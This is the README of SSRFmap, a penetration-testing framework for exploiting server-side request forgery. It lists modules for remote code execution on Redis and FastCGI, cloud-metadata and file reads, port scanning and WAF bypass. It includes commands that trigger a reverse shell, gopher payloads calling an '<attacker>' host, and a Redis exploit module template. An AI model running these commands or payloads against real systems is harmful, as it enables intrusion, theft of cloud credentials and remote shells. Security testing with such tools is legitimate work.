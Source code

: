 # SSRFmap [![Python 3.4+](https://img.shields.io/badge/python-3.4+-blue.svg)](https://www.python.org/downloads/release/python-360/) [![Rawsec's CyberSecurity Inventory](https://inventory.raw.pm/img/badges/Rawsec-inventoried-FF5050_flat.svg)](https://inventory.raw.pm/)


SSRF are often used to leverage actions on other services, this framework aims to find and exploit these services easily. SSRFmap takes a Burp request file as input and a parameter to fuzz.

> Server Side Request Forgery or SSRF is a vulnerability in which an attacker forces a server to perform requests on their behalf.

## Summary

* [Modules](#modules)
* [Install and Manual](#install-and-manual)
* [Examples](#examples)
* [SSRFmap - Tests](#ssrfmap-tests)
* [Contribute](#contribute)
  * [Contributors](#thanks-to-the-contributors)


## Modules

The following modules are already implemented and can be used with the `-m` argument.

| Name           | Description    |
| :------------- | :------------- |
| `fastcgi`      | FastCGI RCE |
| `redis`        | Redis RCE |
| `github`       | Github Enterprise RCE < 2.8.7 |
| `zabbix`       | Zabbix RCE |
| `mysql`        | MySQL Command execution |
| `docker`       | Docker Infoleaks via API |
| `smtp`         | SMTP send mail |
| `portscan`     | Scan top 8000 ports for the host |
| `networkscan`  | HTTP Ping sweep over the network |
| `readfiles`    | Read files such as `/etc/passwd` |
| `alibaba`      | Read files from the provider (e.g: meta-data, user-data) |
| `aws`          | Read files from the provider (e.g: meta-data, user-data) |
| `gce`          | Read files from the provider (e.g: meta-data, user-data) |
| `digitalocean` | Read files from the provider (e.g: meta-data, user-data) |
| `socksproxy`   | SOCKS4 Proxy |
| `smbhash`      | Force an SMB authentication via a UNC Path |
| `tomcat`       | Bruteforce attack against Tomcat Manager |
| `custom`       | Send custom data to a listening service, e.g: netcat |
| `memcache`     | Store data inside the memcache instance |


## Install and Manual

Basic install from the Github repository.

```powershell
$ git clone https://github.com/swisskyrepo/SSRFmap
$ cd SSRFmap/
$ pip3 install -r requirements.txt
$ python3 ssrfmap.py

  usage: ssrfmap.py [-h] [-r REQFILE] [-p PARAM] [-m MODULES] [-l HANDLER]
                    [-v [VERBOSE]] [--lhost LHOST] [--lport LPORT]
                    [--uagent USERAGENT] [--ssl [SSL]] [--level [LEVEL]]

  optional arguments:
    -h, --help          show this help message and exit
    -r REQFILE          SSRF Request file
    -p PARAM            SSRF Parameter to target
    -m MODULES          SSRF Modules to enable
    -l HANDLER          Start an handler for a reverse shell
    -v [VERBOSE]        Enable verbosity
    --lhost LHOST       LHOST reverse shell
    --lport LPORT       LPORT reverse shell
    --uagent USERAGENT  User Agent to use
    --ssl [SSL]         Use HTTPS without verification
    --level [LEVEL]     Level of test to perform (1-5, default: 1)
```

## Examples

First you need a request with a parameter to fuzz, Burp requests works well with SSRFmap. 
They should look like the following. More examples are available in the **/data** folder.

```powershell
POST /form-data HTTP/1.1
Host: 127.0.0.1:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:62.0) Gecko/20100101 Firefox/62.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://mysimple.ssrf/
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Connection: close
Upgrade-Insecure-Requests: 1

url=https%3A%2F%2Fwww.google.fr
```

Use the `-m` followed by module name (separated by a `,` if you want to launch several modules).

```powershell
# Launch a portscan on localhost and read default files
python ssrfmap.py -r demo/request.txt -p url -m readfiles,portscan
```

If you need to have a custom user-agent use the `--uagent`. Some targets will use HTTPS, you can enable it with `--ssl`.

```powershell
# Launch a portscan against an HTTPS endpoint using a custom user-agent
python ssrfmap.py -r demo/request.txt -p url -m portscan --ssl --uagent "SSRFmapAgent"
```

Some modules allow you to create a connect back, you have to specify LHOST and LPORT. Also SSRFmap can listen for the incoming reverse shell.

```powershell
# Triggering a reverse shell on a Redis
python ssrfmap.py -r demo/request.txt -p url -m redis --lhost=127.0.0.1 --lport=4242 -l 4242

# -l create a listener for reverse shell on the specified port
# --lhost and --lport work like in Metasploit, these values are used to create a reverse shell payload
```

When the target is protected by a WAF or some filters you can try a wide range of payloads and encoding with the parameter `--level`.

```powershell
# --level : ability to tweak payloads in order to bypass some IDS/WAF. e.g: 127.0.0.1 -> [::] -> 0000: -> ...
```

## SSRFmap Tests

A quick way to test the framework can be done with `demo/example.py` SSRF service.

```powershell
FLASK_APP=demo/example.py flask run &
python ssrfmap.py -r demo/request.txt -p url -m readfiles
```

## Contribute

I :heart: pull requests :)
Feel free to add any feature listed below or a new service.
  - Redis PHP Exploitation 
  - HTTP module (Jenkins ?)
  ```powershell
  gopher://<proxyserver>:8080/_GET http://<attacker:80>/x HTTP/1.1%0A%0A
  gopher://<proxyserver>:8080/_POST%20http://<attacker>:80/x%20HTTP/1.1%0ACookie:%20eatme%0A%0AI+am+a+post+body
  ```

The following code is a template if you wish to add a module interacting with a service.

```python
from core.utils import *
import logging

name = "servicename in lowercase"
description = "ServiceName RCE - What does it do"
author = "Name or pseudo of the author"
documentation = ["http://link_to_a_research", "http://another_link"]


class exploit:
    SERVER_HOST = "127.0.0.1"
    SERVER_PORT = "4242"

    def __init__(self, requester, args):
        logging.info("Module '{}' launched !".format(name))

        # Handle args for reverse shell
        if args.lhost == None:
            self.SERVER_HOST = input("Server Host:")
        else:
            self.SERVER_HOST = args.lhost

        if args.lport == None:
            self.SERVER_PORT = input("Server Port:")
        else:
            self.SERVER_PORT = args.lport

        # Data for the service
        # Using a generator to create the host list
        # Edit the following ip if you need to target something else
        gen_host = gen_ip_list("127.0.0.1", args.level)
        for ip in gen_host:
            port = "6379"
            data = "*1%0d%0a$8%0d%0aflus[...]%0aquit%0d%0a"
            payload = wrapper_gopher(data, ip, port)

            # Handle args for reverse shell
            payload = payload.replace("SERVER_HOST", self.SERVER_HOST)
            payload = payload.replace("SERVER_PORT", self.SERVER_PORT)

            # Send the payload
            r = requester.do_request(args.param, payload)
```

You can also contribute with a beer IRL or via Github Sponsor button.

### Thanks to the contributors

- [ttffdd](https://github.com/ttffdd)

## Inspired by

- [How I Chained 4 vulnerabilities on GitHub Enterprise, From SSRF Execution Chain to RCE! - Orange Tsai](https://blog.orange.tw/2017/07/how-i-chained-4-vulnerabilities-on.html)
- [Blog on Gopherus Tool  -SpyD3r](https://spyclub.tech/2018/08/14/2018-08-14-blog-on-gopherus/)
- [Gopherus - Github](https://github.com/tarunkant/Gopherus)
- [SSRF testing - cujanovic](https://github.com/cujanovic/SSRF-Testing)
